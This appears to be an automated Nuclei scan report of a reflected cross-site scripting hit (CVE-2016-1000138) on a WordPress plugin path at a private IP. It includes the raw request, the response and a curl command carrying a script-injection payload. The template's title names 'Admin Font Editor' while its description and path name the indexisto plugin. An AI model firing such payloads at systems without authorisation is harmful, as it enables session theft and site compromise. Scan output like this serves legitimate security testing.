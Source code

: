 ### Admin Font Editor <= 1.8 - Reflected Cross-Site Scripting (XSS) (CVE-2016-1000138) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2016-1000138**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/indexisto/assets/js/indexisto-inject.php?indexisto_index=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:18 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Admin Font Editor <= 1.8 - Reflected Cross-Site Scripting (XSS) |
| Authors | daffainfo |
| Tags | cve, cve2016, wordpress, xss, wp-plugin |
| Severity | medium |
| Description | Reflected XSS in wordpress plugin indexisto v1.0.5 |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2016-1000138](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-1000138) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /wp-content/plugins/indexisto/assets/js/indexisto-inject.php?indexisto_index=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 4.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 268
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/indexisto/assets/js/indexisto-inject.php?indexisto_index="></script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- http://www.vapidlabs.com/wp/wp_advisory.php?v=38
- https://wordpress.org/plugins/indexisto
- http://www.securityfocus.com/bid/93816

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 4.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/indexisto/assets/js/indexisto-inject.php?indexisto_index=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)
